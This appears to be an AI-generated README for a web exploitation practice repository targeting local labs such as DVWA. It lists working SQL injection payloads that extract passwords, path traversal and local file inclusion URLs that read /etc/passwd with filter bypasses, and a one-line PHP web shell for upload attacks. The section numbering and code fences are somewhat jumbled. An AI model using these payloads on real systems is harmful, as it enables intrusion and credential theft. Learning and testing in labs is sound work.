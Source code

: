 Here's a structured and detailed README.md file for this web exploitation project. I've broken down each concept into sections, provided clear headings, and used formatting to make it both informative and visually engaging.

---

````markdown
# Web Exploitation Techniques

This repository contains a collection of web exploitation techniques focused on SQL Injection, Directory Traversal, Local File Inclusion, and File Upload Vulnerabilities. The examples and commands provided here can be used for ethical hacking and testing of web application vulnerabilities in controlled environments.

## Table of Contents

1. [Broken Access Control](#broken-access-control)
2. [SQL Injection (SQLi) Examples](#sql-injection-sqli-examples)
3. [Directory Traversal](#directory-traversal)
4. [File Inclusion](#file-inclusion)
5. [File Upload Vulnerabilities](#file-upload-vulnerabilities)

---

## 1. Broken Access Control

```sh
sudo docker container ps
```
````

#### SQL Injection Example

- **Basic payload**: `' OR 1=1 #`
- **To extract passwords**: `' UNION SELECT user, password FROM users #`

**DVWA Example**:

- **Low Security**:

  - Payload: `test' OR 1=1 --`
  - Example: `GET /vulnerabilities/sqli/?id=' OR 1=1 #`

- **Medium Security**:
  - Payload: `1 OR 1=1 #`
  - To extract passwords: `1 UNION SELECT user, password FROM users #`

**SecureBank SQL Injection**:

```sql
' UNION SELECT * FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, 'string' FROM Transactions --
' UNION SELECT 10, 'string', 'string', '02/24/2024', 'string', 1, @@version FROM Transactions --
```

---

## Directory Traversal

```sh
tar -xvf apache-tomcat-8.5.99.tar.gz
./catalina.sh run
```

### Python Virtual Environment Setup

```sh
python3 -m venv venv
. venv/bin/activate
wfuzz -w wordlist http://localhost:1337/dynamic-app1/?FUZZ=test
```

- **Example to Access Secret File**:
  ```sh
  http://localhost:1337/dynamic-app1/?file=../../../secret.txt
  ```

---

## 2. File Inclusion Vulnerabilities

```sh
/app?page=main&username=<username>
```

#### Local File Inclusion (LFI) Example

- **Low Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
  ```

- **Medium Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=....//....//....//etc/passwd
  ```

- **Hard Security**:
  ```sh
  http://localhost/vulnerabilities/fi/?page=file4.php../../../../etc/passwd
  ```

#### PHP Filter

- **Base64 Encoding for Low Security**:

  ```sh
  http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
  ```

  Decode the base64 string to get the `/etc/passwd` content.

---

## 4. File Upload Vulnerabilities

### Basic File Server Setup

```sh
cd <www-directory>
php -S 127.0.0.1:7070
touch hello.php
echo "<?php echo 'hello world'; ?>" > hello.php
```

- **Basic Exploit**:
  - Upload `shell.php` with content:
    ```php
    <?php system($_REQUEST['cmd']); ?>
    ```
  - Access with URL: `http://localhost:7070/uploads/level1-thumbnail.php?cmd=whoami`

---

Enjoy exploring, and remember to use these commands responsibly!

```

---

This Markdown file will display as organized sections with clear headings and code blocks, making it easy to read on GitHub! Let me know if you'd like any further customization.
```

This README should help with clarity, easy navigation, and adherence to ethical usage of these techniques. Let me know if there are any additional sections or if you'd like further elaboration on specific parts!
